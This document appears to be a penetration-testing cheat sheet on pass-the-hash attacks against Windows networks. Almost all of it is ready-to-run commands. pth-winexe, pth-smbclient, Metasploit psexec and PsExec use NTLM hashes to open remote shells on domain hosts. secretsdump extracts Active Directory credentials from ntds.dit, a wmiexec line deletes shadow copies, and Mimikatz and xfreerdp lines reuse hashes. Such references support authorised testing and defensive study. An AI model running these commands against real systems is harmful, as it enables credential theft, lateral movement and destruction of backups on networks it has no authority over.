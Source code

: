 # Pass the Hash - Reusing hashes



## Pass the hash - reusing hashes <a id="pass-the-hash---reusing-hashes"></a>

Pass the hash \(PTH\) is a technique that lets the user authenticate by using a valid username and the hash, instead of the unhashed password. So if you have gotten a hold of a hash you might be able to use that hash against another system.

Pass the hash is a suite of different tools.

### SMB <a id="smb"></a>

So in order to use pass the hash we first need to put the hash in a env variable using the export command:

So we will authenticate against a smb-service.

```text
export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896
```

```text
pth-winexe -U administrator //192.168.1.101 cmd
```

I think you can run it like this too:

```text
pth-winexe -U admin/hash:has //192.168.0.101 cmd
```

#### More examples <a id="more-examples"></a>

```text
pth-winexe -U ./Administrator%aad3b435b51404eeaad3b435b51404ee:4b579a266f697c2xxxxxxxxx //10.145.X.X cmd.exe
pth-winexe -U EXAMPLE/Administrator%example@123 //10.145.X.X cmd.exe
```

[https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html](https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html)

### More PTH tools and examples <a id="more-pth-tools-and-examples"></a>

Metasploit

```text
use exploit/windows/smb/psexec
set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
```

[https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/)

Command line shell on CORPSQLSERVER01

```text
pth-winexe -U corp/user_a%aad3b435b51404eeaad3b435b51404ee:48663e7b299fe3a7047b937804cdc34d –uninstall //corpsqlserver01 cmd.exe
```

SMB access to CORPDC01

```text
pth-smbclient //CORPDC01/c$ -U corp/user_a%aad3b435b51404eeaad3b435b51404ee:48663e7b299fe3a7047b937804cdc34d
```

Run commands using WMI on CORPDC01

```text
wmiexec.py –hashes aad3b435b51404eeaad3b435b51404ee:48663e7b299fe3a7047b937804cdc34d corp/user_a @CORPDC01 “vssadmin delete shadows /all /quiet” > ./NTDSData/rem_shadows.log
```

Acquire data from Active Directory \(ntds.dit\)

```text
secretsdump.py -just-dc-ntlm –user-status –outputfile | ./NTDSData/CORP/ntds20170711-13.05 -hashes aad3b435b51404eeaad3b435b51404ee:48663e7b299fe3a7047b937804cdc34d corp/user_a@corpdc01
```

Command line shell using psexec on Windows

```text
PsExec.exe -accepteula \\ corpsqlserver01 -s -u corp\user_a -p aad3b435b51404eeaad3b435b51404ee:48663e7b299fe3a7047b937804cdc34d cmd.exe
```

Mimikatz

```text
Mimikatz.exe “privilege::debug” “sekurlsa::pth /user:[username] /ntlm:[ntlm hash] /domain:[domainname]” “exit”
```

[https://www.sans.org/reading-room/whitepapers/testing/cracking-active-directory-passwords-how-cook-ad-crack-37940](https://www.sans.org/reading-room/whitepapers/testing/cracking-active-directory-passwords-how-cook-ad-crack-37940)

### Remote Desktop <a id="remote-desktop"></a>

```text
apt-get update
apt-get install freerdp-x11
```

```text
xfreerdp /u:admin /d:domain /pth:hash:hash /v:192.168.1.101
```

